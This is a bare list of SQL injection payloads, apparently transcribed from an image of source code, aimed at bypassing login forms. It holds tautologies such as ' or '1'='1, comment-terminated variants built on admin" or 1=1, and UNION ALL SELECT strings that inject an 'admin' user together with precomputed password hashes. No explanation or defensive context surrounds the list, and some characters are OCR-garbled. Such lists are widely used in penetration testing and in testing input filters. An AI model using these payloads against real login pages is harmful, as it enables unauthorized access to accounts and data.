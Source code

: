                 admin" or "1"="1"#
                admin" or "1"="1"/*
                admin"or 1=1 or ""="
                admin" or 1=1
                admin" or 1=1--
                admin" or 1=1#
                admin" or 1=1/*
                admin") or ("1"="1
                admin") or ("1"="1"--
                admin") or ("1"="1"#
                admin") or ("1"="1"/*
                admin") or "1"="1
                admin") or "1"="1"--
                admin") or "1"="1"#
                admin") or "1"="1"/*
                1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
                1234 " AND 1=0 UNION ALL SELECT "admin", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
                ==
                =
                '
                ' --
                ' #
                ' –
                '--
                '/*
                '#
                " --
                " #
                "/*
                ' and 1='1
                ' and a='a
                or true
                ' or ''='
                " or ""="
                1′) and '1′='1–
                ' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
                " AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
                ' AND 1=0 UNION ALL SELECT '', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
                " AND 1=0 UNION ALL SELECT "", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
                and 1=1
                and 1=1–
                ' and 'one'='one
                ' and 'one'='one–
                ' group by password having 1=1--
                ' group by userid having 1=1--
                ' group by username having 1=1--
                like '%'
                or 0=0 --
                or 0=0 #
                or 0=0 –
                ' or         0=0 #
                ' or 0=0 --
                ' or 0=0 #
                ' or 0=0 –
                " or 0=0 --
                " or 0=0 #
                " or 0=0 –
                %' or '0'='0
                or 1=1–
                ' or 1=1--
                ' or '1'='1
                ' or '1'='1'--
                ' or '1'='1'/*
                ' or '1'='1'#